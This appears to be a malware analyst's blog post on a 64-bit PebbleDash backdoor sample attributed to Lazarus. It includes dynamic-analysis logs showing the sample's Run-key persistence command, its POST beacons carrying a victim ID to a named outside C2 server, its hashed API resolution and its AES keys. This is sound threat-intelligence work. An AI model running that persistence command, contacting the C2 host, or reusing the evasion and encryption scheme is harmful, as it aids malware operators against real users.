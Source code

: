 ```yaml
---
title: "LAZARUS PebbleDash"
date: 2025-03-10
---
```


# Context

SHA256 : 875b0cbad25e04a255b13f86ba361b58453b6f3c5cc11aca2db573c656e64e24  
sample source : [bazar.abuse.ch](https://bazaar.abuse.ch/sample/875b0cbad25e04a255b13f86ba361b58453b6f3c5cc11aca2db573c656e64e24/)  
VT : [VirusTotal](https://www.virustotal.com/gui/file/875b0cbad25e04a255b13f86ba361b58453b6f3c5cc11aca2db573c656e64e24)  

Reports:  
<https://dmpdump.github.io/posts/Lazarus-Backdoor-ITLure/>  
<https://ti.qianxin.com/blog/articles/Kimsuky-Weapon-Update:-Analysis-of-Attack-Activity-Targeting-Korean-Region/>  


C2 :
http://www.addfriend.kr/board/userfiles/temp/index.html  

Analyzed sample is a 64bit PE PebbleDash sample attributed to LAZARUS  

As usual, results from dynamic analysis are shared in my repository ([logs](https://github.com/cedricg-mirror/reflexions/blob/main/APT/LAZARUS/PebbleDash/875b0cbad25e04a255b13f86ba361b58453b6f3c5cc11aca2db573c656e64e24/logs.txt))  




## Persistency  

In order to trigger the persistency-setup behavior from the sample a little reverse engineering was required :  

```html
[CNT] [13]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <GetCommandLineA> in [KERNEL32.DLL] 
[RET] 0x7ff7f099fd96 in [pebbledash.exe]

[CNT] [14]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <GetCommandLineW> in [KERNEL32.DLL] 
[RET] 0x7ff7f099fda3 in [pebbledash.exe]
```

Following the results from those call in statical analysis revealed the following :  

![IDA](https://github.com/cedricg-mirror/cedricg-mirror.github.io/blob/main/_posts/screen/start.jpg "Command Line Parsing")

The sample was therefore run with the '--start' parameter, which triggered its installation :  

```html
[CNT] [64]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <CreateProcessW> in [KERNEL32.DLL] 
[PAR] LPCWSTR               lpApplicationName   : 0x0 (null)
[PAR] LPCWSTR               lpCommandLine       : 0x00000025275BF1E0
[STR]                       -> "reg add hkcu\software\microsoft\windows\currentversion\run /d "\"C:\Users\user\Desktop\pebbledash\pebbledash.exe\"" /t R"
[STR]                          "EG_SZ /v "PAY" /f"
[PAR] LPSECURITY_ATTRIBUTES lpProcessAttributes : 0x0
[PAR] LPSECURITY_ATTRIBUTES lpThreadAttributes  : 0x0
[PAR] BOOL                  bInheritHandles     : 0x0
[PAR] DWORD                 dwCreationFlags     : 0x0 
[PAR] LPVOID                lpEnvironment        : 0x0
[PAR] LPCWSTR               lpCurrentDirectory   : 0x0 (null)
[PAR] LPSTARTUPINFOW        lpStartupInfo        : 0x00000025275BE970
[FLD]                       -> lpDesktop   = 0x0 (null)
[FLD]                       -> lpTitle     = 0x0 (null)
[FLD]                       -> dwFlags     = 0x1 (STARTF_USESHOWWINDOW)
[FLD]                       -> wShowWindow = 0x0
[FLD]                       -> hStdInput   = 0x0
[FLD]                       -> hStdOutput  = 0x0
[FLD]                       -> hStdError   = 0x0
[PAR] LPPROCESS_INFORMATION lpProcessInformation : 0x00000025275BE950
[RET] 0x7ff7f0997314 in [pebbledash.exe]
```



## C2 connection

C2 connection is straightforward :  

```html
[CNT] [91]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <WinHttpConnect> in [winhttp.dll] 
[PAR] HINTERNET     hSession       : 0x277edf80
[PAR] LPCWSTR       pswzServerName : 0x00000025275BD040
[STR]               -> "www.addfriend.kr"
[PAR] INTERNET_PORT nServerPort    : 80
[RET] 0x7ff7f0985d45 in [pebbledash.exe]

[CNT] [92]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <WinHttpOpenRequest> in [winhttp.dll] 
[PAR] HINTERNET hConnect          : 0x277f0070
[PAR] LPCWSTR   pwszVerb          : 0x00000025275BD022
[STR]           -> "POST"
[PAR] LPCWSTR   pwszObjectName    : 0x00000025275BD250
[STR]           -> "/board/userfiles/temp/index.html"
[PAR] LPCWSTR   pwszVersion       : 0x0 (null)
[PAR] LPCWSTR   pwszReferrer      : 0x0 (null)
[PAR] LPCWSTR   *ppwszAcceptTypes : 0x0
[PAR] DWORD     dwFlags           : 0x0 
[RET] 0x7ff7f0985e41 in [pebbledash.exe]

[...]

[CNT] [103]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <WinHttpWriteData> in [winhttp.dll] 
[PAR] HINTERNET hRequest                 : 0x00000025277F4080
[PAR] LPCVOID   lpBuffer                 : 0x00000025275BE180
[STR]           -> "sep=MltZfhPlOLa&uid=689b5bb9&sid=0101e418"
[PAR] DWORD     dwNumberOfBytesToWrite   : 0x29
[PAR] LPDWORD   lpdwNumberOfBytesWritten : 0x00000025275BDE38
[RET] 0x7ff7f0986c47 in [pebbledash.exe]

[CNT] [104]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <WinHttpReceiveResponse> in [winhttp.dll] 
[PAR] HINTERNET hRequest   : 0x00000025277F4080
[PAR] LPVOID    lpReserved : 0x0
[RET] 0x7ff7f0986daa in [pebbledash.exe]
```

As mention in a linked blog analysis from dmpdump.github, the "uid" parameter is set according to the result from :  

```html
[CNT] [81]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <GetVolumeInformationW> in [KERNEL32.DLL] 
[PAR] LPCWSTR lpRootPathName           : 0x00000025275BDCB0
[STR]         -> "C:\"
[PAR] LPWSTR  lpVolumeNameBuffer       : 0x0
[PAR] DWORD   nVolumeNameSize          : 0x0
[PAR] LPDWORD lpVolumeSerialNumber     : 0x00000025275BDCA8
[PAR] LPDWORD lpMaximumComponentLength : 0x0
[PAR] LPDWORD lpFileSystemFlags        : 0x0
[PAR] LPWSTR  lpFileSystemNameBuffer   : 0x0
[PAR] DWORD   nFileSystemNameSize      : 0x0
[RET] 0x7ff7f098ab33 in [pebbledash.exe]
```

---  

Triggering additional behavior from the sample would require to reverse the C2 communication protocol which I may or may not do later ...  

---  

## API Call

API call is achieved is most cases by going through the following pattern :  

![Alt text](screen/API_Call.jpg?raw=true "Dynamic API Address resolution")

1) Required function name is hashed with Fowler–Noll–Vo hash function  
https://en.wikipedia.org/wiki/Fowler%E2%80%93Noll%E2%80%93Vo_hash_function  
The FNV_offset_basis is the 64-bit value: 0xcbf29ce484222325.  
The FNV_prime is the 64-bit value 0x100000001b3.  

2) Function address is dynamically retrieved by walking the PEB and looking for an exported function matching the given Hash  

3) Calling the function  

Few examples of hashed function names below :  

```
2cd62eda1e190cc8  
winhttp!WinHttpWriteData

bcfc93e92c75c701
WinHTTP!WinHttpReceiveResponse

200cc715113de71d  
KERNEL32!LocalAlloc

ddd409e63a9cb926
WinHTTP!WinHttpQueryDataAvailable

90fc86b9e2232aa9  
WinHTTP!WinHttpReadData

3cf811a64137c676
KERNEL32!LocalFree

ca455d40bfa3e279
WinHTTP!WinHttpCloseHandle
```

## Encryption

AES encryption is achieved by the following routine :  

![Alt text](screen/aes.jpg?raw=true "AES Encrypt")

The AES key is unxored just before the call : "NjqaPmSWYpmkTJZn"  

Interestingly, the Key to decrypt orders from the C2 is somewhat different : "aqjNWSmPkmpYnZJT"   

To summarize  :  

```
loc_140007630 (aes encrypt -> base64 encode -> C2) :  
encrypt_key = NjqaPmSWYpmkTJZn

loc_1400078A4 (C2 -> base64 decode -> AES decrypt) :
decrypt_key = aqjNWSmPkmpYnZJT
```

---  



